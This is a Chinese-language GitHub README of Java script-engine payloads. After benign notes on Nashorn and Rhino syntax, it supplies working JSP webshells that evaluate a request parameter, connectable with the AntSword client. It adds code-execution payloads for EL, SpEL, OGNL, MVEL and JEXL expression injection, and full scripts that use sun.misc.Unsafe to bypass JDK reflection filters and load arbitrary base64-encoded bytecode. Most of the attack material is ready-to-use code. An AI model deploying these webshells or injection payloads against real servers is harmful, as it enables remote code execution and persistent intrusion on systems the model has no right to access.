







# Java-Js-Engine-Payloads


## 基本语法

### 获取脚本引擎

```
//通过脚本名称获取：
ScriptEngine engine = new ScriptEngineManager().getEngineByName("JavaScript");  //简写为js也可以
//通过文件扩展名获取： 
ScriptEngine engine = new ScriptEngineManager().getEngineByExtension("js");  
//通过MIME类型来获取： 
ScriptEngine engine = new ScriptEngineManager().getEngineByMimeType("text/javascript");
```


### 绑定对象

```
ScriptEngine engine = new ScriptEngineManager().getEngineByName("js");
engine.put("request", request);
engine.put("response", response);
engine.eval(request.getParameter("mr6"));
```


或者通过eval的重载函数，直接把对象通过一个HashMap放进去

```
new javax.script.ScriptEngineManager().getEngineByName("js").eval(request.getParameter("ant"), new javax.script.SimpleBindings(new java.util.HashMap() {{
put("response", response);
put("request", request);
}}))
```

### 调用Java方法
前面加上全限定类名即可

```
var s = [3];
s[0] = "cmd";
s[1] = "/c";
s[2] = "whoami";//yzddmr6
var p = java.lang.Runtime.getRuntime().exec(s);
var sc = new java.util.Scanner(p.getInputStream(),"GBK").useDelimiter("\\A");
var result = sc.hasNext() ? sc.next() : "";
sc.close();
```
### 导入Java类型

```
var Vector = java.util.Vector;
var JFrame = Packages.javax.swing.JFrame;

 //这种写法仅仅支持Nashorn，Rhino并不支持
var Vector = Java.type("java.util.Vector")
var JFrame = Java.type("javax.swing.JFrame")
```

### 创建Java类型的数组

```
// Rhino
var Array = java.lang.reflect.Array
var intClass = java.lang.Integer.TYPE
var array = Array.newInstance(intClass, 8)

// Nashorn
var IntArray = Java.type("int[]")
var array = new IntArray(8)
```


### 导入Java类
默认情况下，Nashorn 不会导入Java的包。这样主要为了避免类型冲突，比如你写了一个new String，引擎怎么知道你new的是Java的String还是js的String？所以所有的Java的调用都需要加上全限定类名。但是这样写起来很不方便。

这个时候大聪明Mozilla Rhino 就想了一个办法，整了个扩展文件，里面提供了importClass 跟importPackage 方法，可以导入指定的Java包。

* importClass 导入指定Java的类，现在推荐用Java.type
* importPackage 导入一个Java包，类似import com.yzddmr6.*，现在推荐用JavaImporter
  这里需要注意的是，Rhino对该语法的错误处理机制，当被访问的类存在时，Rhino加载该class，而当其不存在时，则把它当成package名称，而并不会报错。

```
load("nashorn:mozilla_compat.js");

importClass(java.util.HashSet);
var set = new HashSet();

importPackage(java.util);
var list = new ArrayList();
```


在一些特殊情况下，导入的全局包会影响js中的函数，例如类名冲突。这个时候可以用JavaImporter，并配合with语句，对导入的Java包设定一个使用范围。

```
// create JavaImporter with specific packages and classes to import

var SwingGui = new JavaImporter(javax.swing,
                            javax.swing.event,
                            javax.swing.border,
                            java.awt.event);
with (SwingGui) {
    // 在with里面才可以调用swing里面的类，防止污染
    var mybutton = new JButton("test");
    var myframe = new JFrame("test");
}
```


### 方法调用与重载
方法在JavaScript中实际上是对象的一个属性，所以除了使用 . 来调用方法之外，也可以使用[]来调用方法：

```
var System = Java.type('java.lang.System');
System.out.println('Hello, World');    // Hello, World
System.out['println']('Hello, World'); // Hello, World
```


Java支持重载（Overload）方法，例如，System.out 的 println 有多个重载版本，如果你想指定特定的重载版本，可以使用[]指定参数类型。例如：

```
var System = Java.type('java.lang.System');
System.out['println'](3.14);          // 3.14
System.out['println(double)'](3.14);  // 3.14
System.out['println(int)'](3.14);     // 3
```


## Rhino/Nashorn解析的差异

这也是当时一个坑点，看下面一段代码

```
var readonlyenv = System.getenv();
      var cmdenv = new java.util.HashMap(readonlyenv);
      var envs = envstr.split("\\|\\|\\|asline\\|\\|\\|");
      for (var i = 0; i < envs.length; i++) {
        var es = envs[i].split("\\|\\|\\|askey\\|\\|\\|");
        if (es.length == 2) {
          cmdenv.put(es[0], es[1]);
        }
      }
      var e = [];
      var i = 0;
      print(cmdenv+'\n');
      for (var key in cmdenv) {//关键
        print("key: "+key+"\n");
        e[i] = key + "=" + cmdenv[key];
        i++;
      }
```

其中cmdenv是个HashMap，这段代码在Java 8中Nashorn引擎可以正常解析，var key in cmdenv的时候把cmdenv的键给输出了



但是在Java 6下运行时，Rhino把他当成了一个js对象，把其属性输出了



所以涉及到这种混合写法就会有异议，不同的引擎有不同的解释。

解决办法使用Java迭代器即可，不掺杂js的写法。

```
var i = 0;
    var iter = cmdenv.keySet().iterator();
    while (iter.hasNext()) {
      var key = iter.next();
      var val = cmdenv.get(key);
      //print("\nkey:" + key);
      //print("\nval:" + val);
      e[i] = key + "=" + val;
      i++;
    }
```


## WebShell下的利用

### 原始Shell

shell.jsp

```
<%

     javax.script.ScriptEngine engine = new javax.script.ScriptEngineManager().getEngineByName("js");
     engine.put("request", request);
     engine.put("response", response);
     engine.eval(request.getParameter("mr6"));

%>
```

甚至不用绑定request/response对象也可以

```
<%
    out.println(new javax.script.ScriptEngineManager().getEngineByName("js").eval(request.getParameter("ant")));
%>
```


类型选择jspjs，密码mr6



### EL表达式Shell

```
<%
out.print(org.apache.jasper.runtime.PageContextImpl.proprietaryEvaluate(request.getParameter("ant"), String.class, pageContext, null));
%>
```

打开蚁剑，jspjs类型，el编码器，一键连接。




## 表达式注入下的利用

### EL

```
${''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval(code)}
```

jspjs类型，选择el编码器，一键连接


### Spel

```
${''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval(code)}
```

springboot设置一个测试环境，以spel为例

```
@RequestMapping("/spel")
public String eval(String spel){
    SpelExpressionParser parser = new SpelExpressionParser();
    Expression expression = parser.parseExpression(spel);
    return expression.getValue().toString();
}
```

蚁剑选择spelbase64编码器可一键连接





### Ognl

```
(new javax.script.ScriptEngineManager()).getEngineByName("js").eval(code)
```
漏洞环境
```
@RequestMapping("/ognl")
public String eval(String str) throws Exception {
    OgnlContext context = new OgnlContext();
    Object ognl = Ognl.parseExpression(str);
    Object value = Ognl.getValue(ognl, context, context.getRoot());
    return value.toString();
}
```


选择ognl编码器，一键连接



### Mvel

```
new javax.script.ScriptEngineManager().getEngineByName("js").eval(code);
```

### Jexl

```
''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval(code)
```


##  js加载任意字节码

### all.js

适用范围：jdk6-14

```
var theUnsafeMethod = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafeMethod.setAccessible(true);
unsafe = theUnsafeMethod.get(null);

function bypass() {
    var reflectionClass = java.lang.Class.forName("jdk.internal.reflect.Reflection");
    var classBuffer = reflectionClass.getResourceAsStream("Reflection.class").readAllBytes();
    var reflectionAnonymousClass = unsafe.defineAnonymousClass(reflectionClass, classBuffer, null);

    var fieldFilterMapField = reflectionAnonymousClass.getDeclaredField("fieldFilterMap");

    if (fieldFilterMapField.getType().isAssignableFrom(java.lang.Class.forName("java.util.HashMap"))) {
        unsafe.putObject(reflectionClass, unsafe.staticFieldOffset(fieldFilterMapField), java.lang.Class.forName("java.util.HashMap").newInstance());
    }
    var clz = java.lang.Class.forName("java.lang.Class").getResourceAsStream("Class.class").readAllBytes();
    var ClassAnonymousClass = unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), clz, null);
    var reflectionDataField = ClassAnonymousClass.getDeclaredField("reflectionData");
    unsafe.putObject(java.lang.Class.forName("java.lang.Class"), unsafe.objectFieldOffset(reflectionDataField), null);
}

function Base64DecodeToByte(str) {
    var bt;
    try {
        bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
    } catch (e) {
        bt = java.util.Base64.getDecoder().decode(str);
    }
    return bt;
}

function defineClass(classBytes) {
    try {
        unsafe.defineClass(null, classBytes, 0, classBytes.length, null, null).newInstance();
    } catch (e) {
        bypass()
        var defineClassMethod = java.lang.Class.forName("java.lang.ClassLoader").getDeclaredMethod(
            "defineClass",
            java.lang.Class.forName("[B"),
            java.lang.Integer.TYPE,
            java.lang.Integer.TYPE
        );
        var modifiers = defineClassMethod.getClass().getDeclaredField("modifiers");
        unsafe.putShort(defineClassMethod, unsafe.objectFieldOffset(modifiers), 0x00000001);
        var cc = defineClassMethod.invoke(
            java.lang.Thread.currentThread().getContextClassLoader(),
            classBytes,
            0,
            classBytes.length
        );
        cc.newInstance();
    }
}
defineClass(Base64DecodeToByte(code));

```

### defineAnonymousClass.js

适用范围：JDK6-14

```
function Base64DecodeToByte(str) {
    var bt;
    try {
        bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
    } catch (e) {
        bt = java.util.Base64.getDecoder().decode(str);
    }
    return bt;
}

function defineClass(classBytes) {
    var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
    theUnsafe.setAccessible(true);
    unsafe = theUnsafe.get(null);
    unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), classBytes, null).newInstance();
}

defineClass(Base64DecodeToByte(code));

```

### goby.js

适用范围：JDK6-14

```
try {
    load("nashorn:mozilla_compat.js");
} catch (e) {
}

function getUnsafe() {
    var theUnsafeMethod =
        java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
    theUnsafeMethod.setAccessible(true);
    return theUnsafeMethod.get(null);
}

function removeClassCache(clazz) {
    var unsafe = getUnsafe();
    var clazzAnonymousClass = unsafe.defineAnonymousClass(
        clazz,
        java.lang.Class.forName("java.lang.Class")
            .getResourceAsStream("Class.class")
            .readAllBytes(),
        null
    );
    var reflectionDataField =
        clazzAnonymousClass.getDeclaredField("reflectionData");
    unsafe.putObject(clazz, unsafe.objectFieldOffset(reflectionDataField), null);
}

function bypassReflectionFilter() {
    var reflectionClass;
    try {
        reflectionClass = java.lang.Class.forName(
            "jdk.internal.reflect.Reflection"
        );
    } catch (error) {
        reflectionClass = java.lang.Class.forName("sun.reflect.Reflection");
    }
    var unsafe = getUnsafe();
    var classBuffer = reflectionClass
        .getResourceAsStream("Reflection.class")
        .readAllBytes();
    var reflectionAnonymousClass = unsafe.defineAnonymousClass(
        reflectionClass,
        classBuffer,
        null
    );
    var fieldFilterMapField =
        reflectionAnonymousClass.getDeclaredField("fieldFilterMap");
    var methodFilterMapField =
        reflectionAnonymousClass.getDeclaredField("methodFilterMap");
    if (
        fieldFilterMapField
            .getType()
            .isAssignableFrom(java.lang.Class.forName("java.util.HashMap"))
    ) {
        unsafe.putObject(
            reflectionClass,
            unsafe.staticFieldOffset(fieldFilterMapField),
            java.lang.Class.forName("java.util.HashMap")
                .getConstructor()
                .newInstance()
        );
    }
    if (
        methodFilterMapField
            .getType()
            .isAssignableFrom(java.lang.Class.forName("java.util.HashMap"))
    ) {
        unsafe.putObject(
            reflectionClass,
            unsafe.staticFieldOffset(methodFilterMapField),
            java.lang.Class.forName("java.util.HashMap")
                .getConstructor()
                .newInstance()
        );
    }
    removeClassCache(java.lang.Class.forName("java.lang.Class"));
}

function setAccessible(accessibleObject) {
    var unsafe = getUnsafe();
    var overrideField = java.lang.Class.forName(
        "java.lang.reflect.AccessibleObject"
    ).getDeclaredField("override");
    var offset = unsafe.objectFieldOffset(overrideField);
    unsafe.putBoolean(accessibleObject, offset, true);
}

function defineClass(bytes) {
    var clz = null;
    var version = java.lang.System.getProperty("java.version");
    var unsafe = getUnsafe();
    var classLoader = new java.net.URLClassLoader(
        java.lang.reflect.Array.newInstance(
            java.lang.Class.forName("java.net.URL"),
            0
        )
    );
    try {
        if (version.split(".")[0] >= 11) {
            bypassReflectionFilter();
            defineClassMethod = java.lang.Class.forName(
                "java.lang.ClassLoader"
            ).getDeclaredMethod(
                "defineClass",
                java.lang.Class.forName("[B"),
                java.lang.Integer.TYPE,
                java.lang.Integer.TYPE
            );
            setAccessible(defineClassMethod);
            clz = defineClassMethod.invoke(classLoader, bytes, 0, bytes.length);
        } else {
            var protectionDomain = new java.security.ProtectionDomain(
                new java.security.CodeSource(
                    null,
                    java.lang.reflect.Array.newInstance(
                        java.lang.Class.forName("java.security.cert.Certificate"),
                        0
                    )
                ),
                null,
                classLoader,
                []
            );
            clz = unsafe.defineClass(
                null,
                bytes,
                0,
                bytes.length,
                classLoader,
                protectionDomain
            );
        }
    } catch (error) {
        error.printStackTrace();
    } finally {
        return clz;
    }
}

function base64DecodeToByte(str) {
    var bt;
    try {
        bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
    } catch (e) {
        bt = java.lang.Class.forName("java.util.Base64").newInstance().getDecoder().decode(str);
    }
    return bt;
}
clz = defineClass(base64DecodeToByte(code));
clz.newInstance();

```


## 相关文章

[一种新型Java一句话木马的实现](https://yzddmr6.com/posts/%E4%B8%80%E7%A7%8D%E6%96%B0%E5%9E%8BJava%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E7%9A%84%E5%AE%9E%E7%8E%B0/)

[Java表达式注入的武器化利用](https://yzddmr6.com/posts/java-expression-exploit/)